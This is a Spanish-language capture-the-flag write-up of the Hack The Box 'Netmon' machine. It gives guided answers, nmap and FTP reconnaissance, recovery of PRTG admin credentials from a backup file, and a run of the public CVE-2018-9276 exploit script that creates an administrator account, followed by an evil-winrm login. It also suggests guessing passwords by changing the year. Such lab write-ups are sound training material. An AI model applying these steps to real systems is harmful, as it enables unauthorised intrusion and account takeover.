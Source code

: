```yaml
---
title: Writeup netmon - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - netmon
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina netmon en Hack The Box.
keywords:
  - writeup netmon
  - hack the box netmon
  - resolución máquina netmon
  - netmon hack the box
  - htb netmon
---
```

------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/Facil/Windows/Netmon)
- 📺 **Resolución en vivo (completa)**: [Link](https://www.youtube.com/watch?v=IcYa_yilycs)
- 🧠 **Explicación resumida**: 

------

#easy #windows #ping #nmap #ftp #CVE-2018-9276 #evil-winrm 

----
# Guided Mode

1)¿Cuál es el nombre de la aplicación que se ejecuta en el puerto 80? Dadas las tres palabras del logotipo.
	PRTG Network Monitor

2)¿Qué servicio se ejecuta en el puerto TCP 21?
	ftp

*La pregunta anterior es la flag de user.txt*
4)¿Cuál es la ruta completa de la carpeta donde PRTG Network Monitor guarda sus archivos de configuración por defecto?
	`C:\ProgramData\Paessler\PRTG Network Monitor`

5)¿Cuál es el nombre del archivo de configuración de copia de seguridad?
	PRTG Configuration.old.bak

6)¿Cuál era la contraseña del usuario prtgadmin según ese archivo?
	PrTg@dmin2018

7)¿Cuál es ahora la contraseña del usuario prtgadmin en el sitio web?
	PrTg@dmin2019

8)¿Qué versión de PRTG está instalada?
	18.1.37.13946

9)¿Con qué usuario se ejecuta este software por defecto? No incluya nada antes de un \
	system
	tasklist /v | findstr PRTG                        [[findstr]] [[tasklist]]
	![[Netmon17.png]]




--------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.10.10.152
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.152 -oG allPorts
extractPorts allPorts
nmap -sCV -p21,80,135,139,445,5985,47001,49664,49665,49666,49667,49668,49669 10.10.10.152 -oN target
```

![[Netmon1.png]]
![[Netmon2.png]]
![[Netmon3.png]]
![[Netmon4.png]]
![[Netmon5.png]]
*TTL:* Maquina windows
*Puertos Relevantes:*
	`21` [[ftp]]
	`80` HTTP
	`445` [[smb]]
	`47001 o 5985` Alguno de estos dos puertos puede llegar  tener un [[evil-winrm]]
*Datos importantes*
En el servicio de [[ftp]] nos podemos conectar como el usuario anonymous. Y en [[smb]] con el usuario guest


----
# [[Whatweb-wappalyzer]]

```shell
whatweb http://10.10.10.152
```

![[Netmon6.png]]

-------
# Intrusion por [[ftp]] user anonymnous

```shell
ftp 10.10.10.152 -p 21
```

![[Netmon7.png]]
![[Netmon8.png]]
Y sacamos la primera flag en el directorio */users/public/desktop/user.txt*

Ahora vamos al directorio por defecto donde se guardan los backups de PRTG Network Monitor
*/ProgramData/paessler/PRTG Network Monitor*

![[Netmon12.png]]
Vemos al archivo de backup y lo descargamos `get PRTG Configuration.old.ba`

Lo abrimos en nuestra maquina, tiene un contenido muy extenso, pero la informacion relevante es esta en las lineas 141 y 142. Nos otorga las credenciales *prtgadmin:PrTg@dmin2018*

![[Netmon13.png]]


------

# [[CVE-2018-9276]]

Buscamos vulnerabilidades con [[searchsploit]] con el comando ``searchsploit prtg``
![[Netmon19.png]]
Descargamos la siguiente ``searchsploit  -m windows/webapps/46527.sh``
Le damos permiso de ejecucion con `chmod +x 46527.sh` y luego lo ejecutamos

La cookie de sesion la ponemos con el parametro *-c* y la sacamos de la pagina donde ya estamos logeado con las credenciales que sacamos previamente en `http://10.10.10.152/welcome.htm`, pero cambiando la contraseña a *PrTg@dmin2019*
![[Netmon20.png]]
```
./46527.sh -u http://10.10.10.152 -c "OCTOPUS1813713946=e0FDMjQ3RTg0LTc0MzEtNDUyNy1BNzU2LTI0MTZEM0ExM0YwMX0%3D"

```
![[Netmon15.png]]
Este exploit lo que hace es crear un nuevo usuario en el windows, con permisos de administrador, y las credenciales van a ser pentest:P3nT3st!

-----------
## Conexion a la maquina con [[evil-winrm]]
Nos conectamos con esta herramienta por que habiamos visto en el escaneo de nmap que estaba activo el servicio por el puerto 47001
Y ya podemos catear la flag
```
evil-winrm -i 10.10.10.152 -u pentest -p 'P3nT3st!'
```

![[Netmon16.png]]

----------
# Notas
Si una contraseña tiene un año antiguo, probar cambiar la contraseña al año actual, por ejemplo. Si la contraseña dice admin2018, y estamos en el 2019, probar admin2019

---------
# Creditos
[Proyecto github A1vinSmith](https://github.com/A1vinSmith/CVE-2018-9276) Me guio un poco en la parte del CVE